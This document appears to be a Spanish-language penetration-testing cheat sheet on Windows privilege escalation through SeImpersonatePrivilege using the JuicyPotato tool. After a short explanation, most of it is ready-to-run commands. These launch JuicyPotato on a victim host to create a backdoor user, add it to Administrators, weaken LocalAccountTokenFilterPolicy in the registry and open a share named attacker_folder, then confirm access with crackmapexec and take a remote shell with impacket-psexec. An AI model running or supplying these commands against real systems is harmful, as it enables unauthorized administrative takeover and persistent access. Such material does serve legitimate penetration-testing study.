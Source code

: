 --- 

# SeImpersonatePrivilege 

### El privilegio SeImpersonatePrivilege es un privilegio de Windows que permite a un proceso tomar la identidad de otro usuario o cuenta de servicio. Este privilegio es utilizado por los servicios de Windows y otros procesos para llevar a cabo tareas en nombre de un usuario o cuenta de servicio específica, incluso si el proceso que las ejecuta tiene un nivel de privilegio más bajo.

----

# Juicy Potato 

### JuicyPotato es una técnica utilizada en el ámbito de la seguridad informática para aprovechar ciertas vulnerabilidades y lograr una escalada de privilegios en sistemas Windows. JuicyPotato se basa en una debilidad en la forma en que Windows maneja los nombres de objetos COM (Component Object Model). Permite a un atacante obtener el privilegio **SeImpersonatePrivilege** para ejecutar código malicioso con los privilegios elevados asociados a dicho privilegio

### Para elevar privilegios abusando del privilegio **SeImpersonatePrivilege** haciendo uso de la técnica **Juicy Potato**, podríamos descargarnos el binario encargado de explotar esta vulnerabilidad como [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) o [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1)

### En ambos, al traspasarlo a la máquina victima y ejecutarlo, podríamos realizar acciones privilegiadas y ejecutar comandos como el user Administrator.

```powershell
> .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami"
```

### En este ejemplo solo estamos ejecutando el comando **whoami**, pero podríamos hacer uso de esto para tener completo acceso al sistema: 

#### Agregamos el usuario y su contraseña al sistema
```powershell
> .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c net user {name} {password} /add" -l 1337
```

#### Agregamos el usuario creado al grupo **Administrators**
```powershell
>  .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c net localgroup {name} Administrators /add" -l 1337
```

### En este punto podríamos verificar con herramientas como **crackmapexec** si ya tenemos acceso al sistema siendo administradores: 

```bash
crackmapexec smb {target_ip} -u '{name}' -p '{password}'
```

### En caso de ver un **(Pwned!)** podríamos conectarnos de manera remota con el máximo de privilegios, en caso de que no, aveces suele ser necesario retocar un componente de un registro (**LocalAccountTokenFilterPolicy**)

```powershell
>  .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
# reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

### Por lo que ahora si volvemos a validar con **crackmapexec** veríamos el *(Pwned!)* y podríamos conectarnos con **impacket-psexec** proporcionando el usuario que hemos creado y la contraseña.

```bash
impacket-psexec WORGROUP\{name}@{target_ip} cmd.exe
```

#### IMPORTANTE: 
### Es importante a tener en cuenta que a la hora de ejecutar este comando lo que se está intentando realizar es subir un binario malicioso en un recurso compartido a nivel de red en el cual tengamos permisos de escritura, en caso de no existir uno, podría ser necesario adicionalmente crear uno. 

```powershell
>  .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL" -l 1337
```